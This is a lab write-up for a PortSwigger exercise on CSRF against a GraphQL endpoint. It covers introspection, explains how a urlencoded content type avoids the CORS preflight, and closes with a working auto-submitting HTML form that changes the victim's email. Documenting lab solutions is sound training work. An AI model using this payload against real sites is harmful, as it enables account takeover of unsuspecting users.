






# Performing CSRF exploits over GraphQL
# Objective
The user management functions for this lab are powered by a GraphQL endpoint. The endpoint accepts requests with a content-type of `x-www-form-urlencoded` and is therefore vulnerable to cross-site request forgery (CSRF) attacks.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address, then upload it to your exploit server.

You can log in to your own account using the following credentials: `wiener:peter`. 
# Solution
## Analysis
Website uses GraphQL to manage informations about posts and users (including authentication).

||
|:--:| 
| *GraphQL example query - Update email funcionality* |

## Exploitation
### Running introspection query
Website allows for introspection query, which discloses information about database structure as well as hidden fields and functions.

||
|:--:| 
| *Introspection query* |
||
| *Introspection query - Visualization of introspection results* |

### CSRF exploitation
Browsers do not allow cross-origin `application/json` POST requests using HTML forms or plain JavaScript (like `fetch()` or `XMLHttpRequest`) without triggering a CORS preflight request. This triggers a CORS preflight, where the browser sends an `OPTIONS` request before the actual `POST`, to ask the server if it's okay. If the server doesn't respond with the correct CORS headers (`Access-Control-Allow-Origin`, etc.), the browser blocks the request.

The above CORS verification can by bypassed with the use of `Content-Type: x-www-form-urlencoded` because this content type does not require origin validation. 

To prepare payload click `Change request method` twice. Then prepared request can be passed to [POC CSRF Generator](https://csrf-poc-generator.vercel.app/) and staged on exploit server. There may be problems with (double) URL encoding while using POC CSRF Generator.

||
|:--:| 
| *Conversion of mutation query to Content-Type of x-www-form-urlencoded* |
|| 
| *Conversion of mutation query to Content-Type of x-www-form-urlencoded* |
| *Skipped variables argument* |
||
| *Final payload* |


Final payload:
```html
<html>
  <body>
    <form action="https://0a5e00ab0378317f801c0dfc0058005f.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value='mutation { changeEmail(input: { email: "hacker@hacker.net" }) { email } }' />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


